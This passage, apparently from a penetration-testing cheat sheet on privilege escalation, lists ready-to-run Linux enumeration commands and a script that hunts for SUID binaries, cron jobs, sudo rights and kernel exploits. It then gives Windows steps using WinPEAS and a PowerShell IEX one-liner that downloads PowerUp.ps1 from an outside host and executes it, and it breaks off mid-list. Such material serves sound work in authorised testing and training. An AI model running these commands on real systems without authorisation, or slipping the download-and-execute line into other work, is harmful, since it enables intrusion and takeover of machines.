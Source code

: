 Automate with:

```bash
sudo -l | tee sudo_enum.txt
grep "NOPASSWD" sudo_enum.txt
```

***

#### 💀 7. Enumeration All-in-One Script

```bash
#!/bin/bash
echo "[*] Gathering PrivEsc data..."
whoami
id
hostname
uname -a
cat /etc/issue
echo "[*] SUID binaries:"
find / -perm -4000 -type f 2>/dev/null
echo "[*] Cron jobs:"
cat /etc/crontab
echo "[*] Checking sudo permissions:"
sudo -l
echo "[*] Kernel Exploits:"
uname -r | ./linux-exploit-suggester.sh
```

***

### III. 🧰 Windows PrivEsc Automation Suite

#### 🧩 1. WinPEAS — Windows PrivEsc Powerhouse

```powershell
.\winPEASx64.exe > output.txt
```

**Finds:**

* Service misconfigurations
* UAC bypass vectors
* AlwaysInstallElevated
* Token privileges

***

#### 💣 2. PowerUp.ps1

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1')
Invoke-AllChecks
```

Detects:
